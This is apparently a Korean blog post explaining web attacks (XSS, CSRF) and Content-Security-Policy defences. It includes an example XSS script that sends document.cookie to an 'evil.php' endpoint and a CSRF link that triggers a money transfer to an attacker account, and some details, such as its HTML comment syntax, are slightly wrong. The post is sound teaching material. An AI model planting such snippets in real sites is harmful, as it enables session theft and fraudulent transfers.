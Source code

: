 ```yaml
---
title: "웹 보안"
date: "2021-06-02"

---
```


개방형 웹 앱에서는 보안을 확인하는 것이 중요하다. 유저의 개인정보가 유출될수도 있고, 인터넷 은행 같은 서비스에서는 자산적 피해로 이어질 수 있다. 그래서 이 포스트에선 **웹 공격**과 **웹 보안**에 대해 알아보고자 한다.

## 웹 공격

웹 공격에는 대표적으로 두 가지가 있다. 

- [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting): 세션 하이재킹을 통해 서버와 요청 응답을 주고 받는 공격

```html
<--! 다음과 같은 코드를 공격 웹 사이트에 심어놓음으로 인해 cookie를 evil.php로 전송하여 탈취 -->
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

- [CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF): 인증된 사용자를 통해 원하는 요청을 전송하는 공격

```html
<--! www.example.com/transfer이 송금이고 공격받는 사용자가 인증되었다고 가정했을 때 -->
<--! input 검사를 하지 않는 FAQ 같은 곳에 삽입할 수 있을 것이다. -->
<a href="www.example.com/transfer?account=attackerAccount&amount=$100">자세히 알아보기</a>
```



## 콘텐츠 보안 정책(CSP)

CSP는 XSS처럼 데이터를 삽입해 공격을 하는 막는 보안 계층이다.

일반적으로  [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) 헤더를 사용하고, <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';"> 이와 같이 meta 태그로 설정할 때도 있다.

가장 중요한 값은 default-src 인데, 이는 인라인 스크립트와 스타일이 실행되는 것을 방지한다. 아래 몇가지 예를 보면서 뜻을 알아보자.

예1) 모든 콘텐츠가 사이트 고유의 출처에서 제공되기를 원함.

```
Content-Security-Policy: default-src 'self'
```

예2) 이미지는 모든 곳에서 제공될 수 있지만, 스크립트는 지정된 서버에서만 허용.

```
Content-Security-Policy: default-src 'self'; img-src *; script-src userscripts.example.com
```

이처럼 리소스 출처에 제한을 두면서 공격에 대처하는 방법이다.

